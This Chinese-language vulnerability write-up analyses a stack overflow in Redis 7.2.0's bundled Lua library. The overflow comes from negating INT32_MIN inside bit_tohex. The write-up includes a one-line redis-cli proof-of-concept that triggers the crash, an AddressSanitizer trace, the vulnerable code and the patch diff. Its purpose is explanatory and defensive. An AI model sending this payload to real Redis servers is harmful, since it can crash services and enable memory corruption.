 ``` shell
src/redis-cli eval "return bit.tohex(1, -2147483648)" 0
```
ASAN追踪漏洞，可以发现PoC在lua_bit.c:137引发了崩溃。

``` shell
==11282==ERROR: AddressSanitizer: unknown-crash
#7 0x556b84e5e2ef in bit_tohex /opt/redis-7.2.0/deps/lua/src/lua_bit.c:137
#8 0x556b84e1c7bd in luaD_precall /opt/redis-7.2.0/deps/lua/src/ldo.c:320
#9 0x556b84e3f790 in luaV_execute /opt/redis-7.2.0/deps/lua/src/lvm.c:614
#10 0x556b84e1dda4 in luaD_call /opt/redis-7.2.0/deps/lua/src/ldo.c:378
#11 0x556b84e1af11 in luaD_rawrunprotected /opt/redis-7.2.0/deps/lua/src/ldo.c:116
#12 0x556b84e1e292 in luaD_pcall /opt/redis-7.2.0/deps/lua/src/ldo.c:464
#13 0x556b84e14d65 in lua_pcall /opt/redis-7.2.0/deps/lua/src/lapi.c:827
#14 0x556b84ddbdbc in luaCallFunction /opt/redis-7.2.0/src/script_lua.c:1659
#15 0x556b84cd6cf2 in evalGenericCommand /opt/redis-7.2.0/src/eval.c:536
#16 0x556b84cd6eb0 in evalCommand /opt/redis-7.2.0/src/eval.c:546
#17 0x556b84b8c571 in call /opt/redis-7.2.0/src/server.c:3519
```
### 三、漏洞成因
定位到lua_bit.c:137，漏洞产生于bit_tohex函数中，栈溢出发生在对 buf[8] 的写入，可以断定该漏洞是由于整型 n 的溢出而触发的。

``` c
deps/lua/src/lua_bit.c
static int bit_tohex(lua_State *L)
{
    UBits b = barg(L, 1);
    SBits n = lua_isnone(L, 2) ? 8 : (SBits)barg(L, 2);
    const char *hexdigits = "0123456789abcdef";
    char buf[8];
    int i;

    // 整型溢出
👉  if (n < 0) { n = -n; hexdigits = "0123456789ABCDEF"; }
    if (n > 8) n = 8;

    // 栈溢出，lua_bit.c:137
👉  for (i = (int)n; --i >= 0; ) { buf[i] = hexdigits[b & 15]; b >>= 4; }

    lua_pushlstring(L, buf, (size_t)n);
    return 1;
}
```

之前提到了tohex功能函数接收两个参数。实现在bit_tohex函数中，那么第一个参数传递给 b ，第二个参数传递给 n 。SBits和UBits是int32无符号数和带符号数的类型定义。考虑到 n 的各种情况，函数对 n 进行了判断，希望将其限制在 [0,8]，但是忽略了特殊情况：-2147483648。
-2147483648是INT32_MIN，如果一个int32变量等于INT32_MIN，在其上的取负操作并不会转换成INT32_MAX，而是不变。因此INT32_MIN绕过了 if (n > 8) 的判断逻辑，导致了栈溢出。

### 三、补丁

补丁版本对 n 进行了判断，如果等于INT32_MIN，则加1。

``` c
--- lua_bit.c	2023-08-15 05:38:36.000000000 -0400
+++ lua_bit_patch.c	2024-10-02 15:04:05.000000000 -0400
@@ -128,14 +128,15 @@
 static int bit_tohex(lua_State *L)
 {
   UBits b = barg(L, 1);
   SBits n = lua_isnone(L, 2) ? 8 : (SBits)barg(L, 2);
   ...
   // 补丁
+  if (n == INT32_MIN) n = INT32_MIN+1;
   if (n < 0) { n = -n; hexdigits = "0123456789ABCDEF"; }
   if (n > 8) n = 8;
```